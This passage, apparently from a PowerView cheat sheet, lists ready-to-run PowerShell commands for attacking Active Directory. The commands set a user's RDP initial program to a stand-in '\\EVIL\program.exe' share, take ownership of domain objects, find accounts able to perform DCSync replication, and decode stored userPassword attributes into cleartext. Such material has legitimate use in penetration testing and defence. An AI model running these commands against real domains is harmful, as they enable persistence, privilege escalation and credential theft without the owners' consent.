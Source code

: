 ````
Invoke-RevertToSelf
````
- Enumerates computers in the current domain with 'outlier' properties, i.e. properties not set from the firest result returned by Get-DomainComputer
````
Get-DomainComputer -FindOne | Find-DomainObjectPropertyOutlier
````
- Set the specified property for the given user identity
````
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
````
- Set the owner of 'dfm' in the current domain to 'harmj0y'
````
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
````
- Retrieve *most* users who can perform DC replication for dev.testlab.local (i.e. DCsync)
````
Get-ObjectACL "DC=testlab,DC=local" -ResolveGUIDs | ? {
    ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')
}
````
- Check if any user passwords are set
````
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl
````
